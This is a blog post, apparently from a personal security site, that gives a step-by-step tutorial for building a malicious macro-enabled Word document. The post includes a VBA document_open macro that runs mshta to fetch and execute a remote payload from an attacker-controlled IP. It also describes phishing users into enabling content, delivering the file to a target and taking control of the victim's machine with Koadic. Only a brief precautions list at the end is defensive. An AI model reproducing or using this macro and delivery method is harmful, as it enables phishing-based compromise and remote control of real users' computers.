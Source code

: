 ```yaml
---
title: "Create malicious office documents (Macro attack)"
date: "2020-04-19"
layout: single
tags:
- Malware
categories:
- Blog-post
---
```


Hello world.
This blog post is tend to show how macro attack works. We gonna create a malicious document that will execute our mshta payload.

This blog post is for education and research purpose only. If you do something bad, do with your own risk.

## Create document file in Microsoft Word

We will create a word file first and at the end of this tutorial save it as `.doc`. 

Maybe as an attacker, they will display a message to phishing user to click `enable editing` and `enable content` of the document like below picture.

![pic1](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic1.png)

## Create macro 

Click on 'view" tab

![//pic2](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic2.png)

Click Macros

![//pic3](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic3.PNG)

Type any name you want for Macro name and click "create" to create the macro

![//pic4](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic4.PNG)

On "Project" path, click ThisDocument

![//pic5](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic5.PNG)

Write our malicious macro code like below

```
Sub document_open()
    Shell ("cmd /c mshta http://192.168.83.129:9999/TPXfI")
End Sub
```
![//pic6](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic6.PNG)

You can also use other payload command line like powershell etc. The mshta attack is just an example.

In my case here, this macro will execute mshta fileless payload.

## Save as .doc

We gonna choose `.doc` or `.docm` file format to save this document because this type of document support to execute macro attack.

![//pic7](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic7.PNG)

Now, we can deliver this malicious document to target user.


# User execute and enable content
Once user open the document and enable content of our malicious document, the user will be compromised.

![//pic8.gif](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic8.gif)
Koadic now has take control our target user.

# User (victim) precaution
- Please make sure the document we've downloaded from internet/mail is clean
- Take a look who is the sender in your mail box
- Take a precautionary measures before open `.doc` or `.docm` document format.
